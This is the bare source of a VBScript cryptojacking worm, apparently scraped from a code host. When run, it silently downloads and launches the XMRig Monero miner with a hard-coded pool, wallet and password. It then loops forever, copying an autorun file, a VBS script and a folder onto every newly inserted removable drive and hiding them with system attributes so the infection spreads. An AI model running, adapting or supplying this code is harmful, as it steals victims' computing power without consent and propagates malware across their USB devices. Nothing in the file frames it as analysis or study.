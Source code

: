 Option Explicit
On Error Resume Next

Dim downloadUrl, zipFileName, extractedFolderName, exeName, minerArgs, autorunFile, vbsFile, openFolder
Dim http, stream, fso, wshShell, shellApp, scriptPath, zipFilePath, extractPath, exePath, command
Dim srcAutorunPath, srcVbsPath, srcOpenFolderPath
Dim wmiService, initialDrives, colDisks, objDisk, driveLetter
Dim destAutorun, destVbs, destFolder
Dim currentDrives, key
Dim zipFolder

downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmrig-6.24.0-windows-x64.zip"
zipFileName = "xmrig-6.24.0-windows-x64.zip"
extractedFolderName = "xmrig-6.24.0"
exeName = "xmrig.exe"
minerArgs = "-o pool.hashvault.pro:443 -u 471q5TCWH23JtsjiSVNXs8TNRCp4aadn7b5Lmxi9xFrLgimAFyqajGqXAfDFjFvZkiRkZmEnC3wYbeMs1FsJ8u8oVmf17Fc -p ratul001 -a rx/0 -k --donate-level 1"
autorunFile = "AUTORUN.INF"
vbsFile = "sami.vbs"
openFolder = "OpenFile"

Set fso = CreateObject("Scripting.FileSystemObject")
Set wshShell = CreateObject("WScript.Shell")
scriptPath = fso.GetParentFolderName(WScript.ScriptFullName)

zipFilePath = fso.BuildPath(scriptPath, zipFileName)
extractPath = fso.BuildPath(scriptPath, "")

' Correctly define paths based on user's directory structure
exePath = fso.BuildPath(fso.BuildPath(scriptPath, extractedFolderName), exeName)
srcAutorunPath = fso.BuildPath(scriptPath, autorunFile)
srcVbsPath = fso.BuildPath(scriptPath, vbsFile)
srcOpenFolderPath = fso.BuildPath(scriptPath, openFolder)

If Not fso.FileExists(exePath) Then
    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    If Err.Number = 0 Then
        http.SetTimeouts 10000, 30000, 60000, 60000
        http.Open "GET", downloadUrl, False
        http.Send
        If http.Status = 200 Then
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write http.ResponseBody
            stream.SaveToFile zipFilePath, 2
            stream.Close
            Set stream = Nothing
            
            Set shellApp = CreateObject("Shell.Application")
            If fso.FileExists(zipFilePath) Then
                Set zipFolder = shellApp.NameSpace(zipFilePath)
                Set destFolder = shellApp.NameSpace(extractPath)
                destFolder.CopyHere zipFolder.Items, 20
            End If
            Set shellApp = Nothing
        End If
        Set http = Nothing
    End If
End If

If fso.FileExists(exePath) Then
    command = """" & exePath & """ " & minerArgs
    wshShell.Run command, 0, False
End If

Set initialDrives = CreateObject("Scripting.Dictionary")
Set wmiService = GetObject("winmgmts:\\.\root\cimv2")
Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")

For Each objDisk in colDisks
    initialDrives.Add objDisk.DeviceID, True
Next

Do
    WScript.Sleep 5000
    Set colDisks = wmiService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType=2")
    
    For Each objDisk in colDisks
        driveLetter = objDisk.DeviceID
        If Not initialDrives.Exists(driveLetter) Then
            initialDrives.Add driveLetter, True
            WScript.Sleep 10000 ' Wait 10 seconds after detection
            
            destAutorun = fso.BuildPath(driveLetter & "\", autorunFile)
            destVbs = fso.BuildPath(driveLetter & "\", vbsFile)
            destFolder = fso.BuildPath(driveLetter & "\", openFolder)
            
            ' Check for and delete existing files/folder before copying
            If fso.FolderExists(destFolder) Then
                wshShell.Run "cmd.exe /c attrib -h -s -r """ & destFolder & """ /s /d", 0, True
                fso.DeleteFolder destFolder, True
            End If
            If fso.FileExists(destAutorun) Then
                wshShell.Run "cmd.exe /c attrib -h -s -r """ & destAutorun & """", 0, True
                fso.DeleteFile destAutorun, True
            End If
            If fso.FileExists(destVbs) Then
                wshShell.Run "cmd.exe /c attrib -h -s -r """ & destVbs & """", 0, True
                fso.DeleteFile destVbs, True
            End If
            
            ' Copy new files and folder
            fso.CopyFile srcAutorunPath, destAutorun, True
            fso.CopyFile srcVbsPath, destVbs, True
            fso.CopyFolder srcOpenFolderPath, destFolder, True
            
            ' Set attributes for the new files and folder
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destAutorun & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destVbs & """", 0, True
            wshShell.Run "cmd.exe /c attrib +h +s +r """ & destFolder & """ /s /d", 0, True
        End If
    Next
    
    Set currentDrives = CreateObject("Scripting.Dictionary")
    For Each objDisk in colDisks
        currentDrives.Add objDisk.DeviceID, True
    Next

    For Each key in initialDrives.Keys
        If Not currentDrives.Exists(key) Then
            initialDrives.Remove(key)
        End If
    Next
Loop
